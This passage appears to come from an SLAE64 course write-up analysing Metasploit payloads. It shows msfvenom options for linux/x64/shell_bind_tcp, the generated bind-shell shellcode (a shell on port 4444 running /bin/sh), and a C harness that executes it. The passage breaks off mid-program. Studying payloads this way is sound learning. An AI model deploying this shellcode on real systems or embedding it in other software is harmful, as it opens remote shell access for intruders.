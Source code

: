 ```shell
    PrependSetgid               false            no        Prepend a stub that executes the setgid(0) system call
    PrependSetregid             false            no        Prepend a stub that executes the setregid(0, 0) system call
    PrependSetresgid            false            no        Prepend a stub that executes the setresgid(0, 0, 0) system call
    PrependSetresuid            false            no        Prepend a stub that executes the setresuid(0, 0, 0) system call
    PrependSetreuid             false            no        Prepend a stub that executes the setreuid(0, 0) system call
    PrependSetuid               false            no        Prepend a stub that executes the setuid(0) system call
    VERBOSE                     false            no        Enable detailed status messages
    WORKSPACE                                    no        Specify the workspace for this module

Evasion options for payload/linux/x64/shell_bind_tcp:
=========================

    Name  Current Setting  Required  Description
    ----  ---------------  --------  -----------
```

We keep the default options to bind on port `4444`.

So the following command utilizes the `shell_bind_tcp` payload and outputs the shellcode in `C` format.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/5_Msfvenom_payloads/2_bind$ msfvenom -p linux/x64/shell_bind_tcp -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 86 bytes
Final size of c file: 389 bytes
unsigned char buf[] = 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x52\xc7\x04\x24\x02\x00\x11\x5c\x48\x89\xe6\x6a\x10\x5a"
"\x6a\x31\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a"
"\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21"
"\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
"\x0f\x05";
```

Now we can paste the extracted shellcode in the file `shellcode.c`. So, the whole `C` program is the following:

```c
#include <stdio.h> 
#include <string.h> 

unsigned char code[] = \ 
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97"
"\x52\xc7\x04\x24\x02\x00\x11\x5c\x48\x89\xe6\x6a\x10\x5a"
"\x6a\x31\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a"
"\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21"
"\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
"\x0f\x05";

main() 
{ 
	printf("Shellcode Length: %d\n", strlen(code)); 
	
	int (*ret)() = (int(*)())code; 
```